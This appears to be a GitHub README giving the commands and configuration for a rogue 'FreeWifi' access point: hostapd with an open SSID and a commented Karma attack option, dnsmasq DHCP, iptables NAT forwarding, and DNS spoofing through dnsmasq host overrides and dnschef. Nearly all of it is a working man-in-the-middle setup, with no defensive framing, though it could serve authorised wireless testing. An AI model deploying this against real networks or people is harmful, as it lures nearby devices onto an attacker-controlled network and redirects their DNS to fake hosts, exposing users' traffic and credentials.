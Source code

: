 
## Installing and Configuring the Access Point

### VM Configuration (If applicable)

Set the Network Adapter for the guest OS to `Bridged (Autodetect)`.  


## Install hostapd and dnsmasq  
```
sudo apt update && sudo apt install -y hostapd dnsmasq wireless-tools iw wvdial

```
## /etc/hostapd/hostapd.conf                          
*Change the wireless interface name accordingly*
```
# cat /etc/hostapd/hostapd.conf 
interface=wlan0
driver=nl80211
ssid=FreeWifi
channel=1
# Yes, we support the Karma attack.
#enable_karma=1
```

## /etc/dnsmasq.conf
*Change the wireless interface name accordingly*
```
cat /etc/dnsmasq.conf      
log-facility=/var/log/dnsmasq.log
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
#no-resolv
log-queries
```

## Interface IP commands
*Change the wireless interface name accordingly*
```
sudo ifconfig wlan0 10.0.0.1 netmask 255.255.255.0
sudo ifconfig wlan0 mtu 1400
sudo route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

## IPtable Rules
*Change the interface names accordingly*  
*wlan0 = AP / eth0 = internet*

```
sudo iptables --flush
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
sudo iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
sudo iptables -A FORWARD -i eth0 -o wlan0 -m state --state ESTABLISHED,RELATED -j ACCEPT
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

## Disable Network Manager
```
sudo systemctl stop NetworkManager.service
```

## Start the Services
```
sudo /etc/init.d/hostapd start
sudo /etc/init.d/dnsmasq start
```

## DNS Spoffing with dnsmasq
```
# add list of ip and host addresses to a file.  The file should follow the /etc/hosts format
sudo echo 127.0.0.1 example.com > /etc/spoof.hosts

# Modify /etc/dnsmasq.conf to point to the file
sudo echo addn-hosts=/etc/spoof.hosts >> /etc/dnsmasq.conf

# restart dnsmasq
sudo /etc/init.d/dnsmasq restart
```

## To run dnschef instead of dnsmasq

```
echo DNSMASQ_OPTS="-p0" >> /etc/default/dnsmasq
sudo /etc/init.d/dnsmasq restart
dnschef -i 10.0.0.1
```
## DNS Spoofing with dnschef
```
dnschef -i <interface> --fakedomains <domain.com> --fakeip <IP>
```

